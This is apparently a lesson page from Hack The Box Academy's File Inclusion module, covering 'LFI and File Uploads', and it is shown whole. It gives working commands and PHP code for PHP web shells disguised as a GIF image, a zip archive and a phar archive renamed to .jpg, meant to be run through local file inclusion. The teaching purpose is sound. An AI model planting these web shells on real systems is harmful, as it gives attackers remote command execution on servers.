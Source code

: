 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/23/section/1493
// Platform Version: V1
// Module ID: 23
// Module Name: File Inclusion
// Module Difficulty: Medium
// Section ID: 1493
// Section Title: LFI and File Uploads
// Page Title: Hack The Box - Academy
// Page Number: 7
-->

# LFI and File Uploads

**Module Name:** File Inclusion **Page Number:** 7

#### 

#### FILE INCLUSION

# LFI and File Uploads

## Image upload

#### Crafting Malicious Image

``` shell-session
ndefstathiou@htb[/htb]$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

![https://academy.hackthebox.com/storage/modules/23/lfi_upload_gif.jpg](https://academy.hackthebox.com/storage/modules/23/lfi_upload_gif.jpg)

#### Uploaded File Path

``` html
<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
```

![https://academy.hackthebox.com/storage/modules/23/lfi_include_uploaded_gif.jpg](https://academy.hackthebox.com/storage/modules/23/lfi_include_uploaded_gif.jpg)

## Zip Upload

``` shell-session
ndefstathiou@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

![https://academy.hackthebox.com/storage/modules/23/data_wrapper_id.png](https://academy.hackthebox.com/storage/modules/23/data_wrapper_id.png)

## Phar Upload

``` php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

``` shell-session
ndefstathiou@htb[/htb]$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

![https://academy.hackthebox.com/storage/modules/23/rfi_localhost.jpg](https://academy.hackthebox.com/storage/modules/23/rfi_localhost.jpg)

# 

# 

#### Questions

####